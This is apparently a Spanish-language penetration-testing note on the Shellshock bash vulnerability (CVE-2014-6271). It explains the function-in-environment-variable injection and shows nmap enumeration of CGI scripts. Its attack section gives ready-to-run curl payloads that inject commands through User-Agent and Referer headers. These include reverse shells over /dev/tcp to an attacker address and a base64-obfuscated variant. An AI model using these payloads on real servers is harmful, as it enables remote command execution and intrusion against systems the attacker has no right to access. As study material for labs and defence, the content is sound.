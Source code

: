 # SHELLSHOCK

- [[#INTRODUCCION|INTRODUCCION]]
- [[#EXPLICACION|EXPLICACION]]
- [[#POC|POC]]
- [[#ENUMERACION CON NMAP|ENUMERACION CON NMAP]]
- [[#ATAQUE|ATAQUE]]
	- [[#POC WEB|POC WEB]]
	- [[#REVERSE SHELL|REVERSE SHELL]]


## INTRODUCCION

Esta es una vulnerabilidad que sólo se ve en Linux, pues en Windows no afecta. La vulnerabilidad lo que nos permite es, tras no validar de forma correcta la declaración de funciones en variables, ejecutar comandos en remoto sobre sistemas a través de consultas en este caso por medio de peticiones web.

Shellshock es una vulnerabilidad asociada al CVE-2014-6271 que salió el 24 de septiembre de 2014 y afecta a la shell de Linux “Bash” hasta la versión 4.3. Esta vulnerabilidad permite una ejecución arbitraria de comandos.

Puede **encontrar** esta vulnerabilidad si nota que está usando una **versión antigua de Apache** y **cgi_mod**.

cuando se ve un archivo de tipo **.cgi** o la ruta en la url **/cgi-bin/** se puede probar el ataque shellshock, esto si la shell es vulnerable. Hay veces que la extension no es necesario que sea **.cgi**, sino **.sh** u otro, pero debe estar en la ruta **/cgi-bin/**.

Estos archivos interactuan con una bash y si es una bash vulnerable es posible ejecutar comandos arbitrarios.

## EXPLICACION

La vulnerabilidad esta en la inyeccion de comandos en variables de entorno, sabemos podemos definir una variable de entorno de la siguiente manera:

```bash
export SALUDO="hola mundo"

echo $SALUDO #hola mundo
```

tambien es posible almacenar dentro de una variable de entorno una funcion escrita en bash que tiene la siguiente sintaxis:

```bash

nombre_funcion(){contenido}

#EJEMPLO

export saludo="(){echo \"hola mundo\"}"

bash -c 'saludo' #hola mundo
```

En este ejemplo no es necesario colocar un nombre de funcion y estamos escapando las comillas dobles. Dentro de una variable de entorno declarada como si tuviera una funcion se puede ejecutar comandos del sistema, en este caso hicimos un simple echo dentro de la funcion.

## POC

Sabemos que con **;** se puede concatenar comandos, que pasa si colocamos lo siguiente:

```bash
export saludo="(){:;}; whoami"
```

Pues si la bash es vulnerable es posible realizar la ejecucion de comandos, ya que despues de una funcion que no hace nada se esta concatenando otro comando mendiante el **;**.

A veces es necesario colocar 1 o 2 **echo;** despues de la funcion o antes del comando.

## ENUMERACION CON NMAP

```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

## ATAQUE

Los archivos susceptibles a un ataque Shellshock son los que comúnmente pertenezcan a alguna de las siguientes extensiones:

- cgi
- bin
- sh
- pl

Ahora a nivel web esto se puede colocar en una cabecera, por ejemplo el **User-Agent** o **referer** ya que en el servidor web estas cabeceras las reconoce como variables de entorno.

### POC WEB

podemos comprobar si podemos ejecutar comandos enviando un ping desde la maquina victima a nuestra maquina kali:

nos colocamos a la escuhca para recibir paquetes ICMP:

```bash
tcpdump -i tun0 icmp -n
```

```bash
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -c 'ping -c 4 <IP_KALI>'" "https://192.168.1.X:10000/cgi-bin/recurso.cgi"
```

```bash
curl --silent -k -H "Referer: () { :; }; /bin/bash -c 'ping -c 4 <IP_KALI>'" "https://192.168.1.X:10000/cgi-bin/recurso.cgi"
```

### REVERSE SHELL

```bash
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/ipLocal/puertoLocal 0>&1" "https://192.168.1.X:10000/cgi-bin/recurso.cgi"
```

```bash
curl --silent -k -H "Referer: () { :; }; /bin/bash -i >& /dev/tcp/ipLocal/puertoLocal 0>&1" "https://192.168.1.X:10000/cgi-bin/recurso.cgi"
```

podemos enviar en base 64:

```bash
echo '/bin/bash -i >& /dev/tcp/ipLocal/puertoLocal 0>&1' | base64
```

```bash
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -c 'echo \"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL2lwTG9jYWwvcHVlcnRvTG9jYWwgMD4mMQo=\" | base64 -d | /bin/bash '" "https://192.168.1.X:10000/cgi-bin/recurso.cgi"
```

```bash
curl --silent -k -H "Referer: () { :; }; /bin/bash -c 'echo \"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL2lwTG9jYWwvcHVlcnRvTG9jYWwgMD4mMQo=\" | base64 -d | /bin/bash '" "https://192.168.1.X:10000/cgi-bin/recurso.cgi"
```

Desde burpsuite podemos modificar el User-agent tambien:

```bash
User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/ip/puerto 0>&1
```

Repositorio util:

[shellshocker](https://github.com/erinzm/shellshocker)

